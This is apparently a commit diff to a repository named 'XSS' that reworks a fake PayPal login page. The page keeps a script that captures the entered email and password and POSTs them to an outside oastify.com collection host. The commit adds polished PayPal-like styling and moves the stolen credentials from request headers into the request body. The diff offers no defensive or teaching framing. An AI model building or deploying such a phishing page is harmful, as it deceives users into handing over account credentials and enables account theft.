

Before and after one commit to MohaseenH1/XSS, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-817 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,13 +2,56 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <title>Login - PayPal</title>
+    <title>Paypal Login - Example</title>
     <style>
-        /* Add PayPal styles here */
+        /* Basic styles for the login form */
+        body {
+            font-family: Arial, sans-serif;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
+            background-color: #f2f2f2;
+        }
+        .login-container {
+            background: #fff;
+            padding: 20px;
+            border-radius: 8px;
+            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
+        }
+        .login-container h1 {
+            margin-bottom: 20px;
+        }
+        .login-container label {
+            display: block;
+            margin-bottom: 8px;
+        }
+        .login-container input[type="email"],
+        .login-container input[type="password"] {
+            width: 100%;
+            padding: 10px;
+            margin-bottom: 10px;
+            border: 1px solid #ccc;
+            border-radius: 4px;
+        }
+        .login-container button {
+            width: 100%;
+            padding: 10px;
+            background-color: #0070ba;
+            color: #fff;
+            border: none;
+            border-radius: 4px;
+            cursor: pointer;
+        }
+        .login-container button:hover {
+            background-color: #005fa3;
+        }
     </style>
 </head>
 <body>
-    <h1>Login to PayPal</h1>
+    <div class="login-container">
+        <h1>Login</h1>
         <form id="loginForm">
             <label for="email">Email:</label>
             <input type="email" id="email" name="email" required>
@@ -18,6 +61,7 @@
             <br>
             <button type="submit">Log In</button>
         </form>
+    </div>
 
     <script>
         document.getElementById('loginForm').onsubmit = function(e) {
@@ -26,11 +70,9 @@
             const email = document.getElementById('email').value;
             const password = document.getElementById('password').value;
             const xhr = new XMLHttpRequest();
-            xhr.open('POST', 'https://r3v0pmkgomjsvaqclfiar70ao1usih.oastify.com', true);
+            xhr.open('POST', 'https://lshueg9adg8mk4f6a974g1p4dvjn7c.oastify.com', true);
             xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
-            xhr.setRequestHeader('Email', email);
-            xhr.setRequestHeader('Password', password);
-            xhr.send();
+            xhr.send(`email=${email}&password=${password}`);
         };
     </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
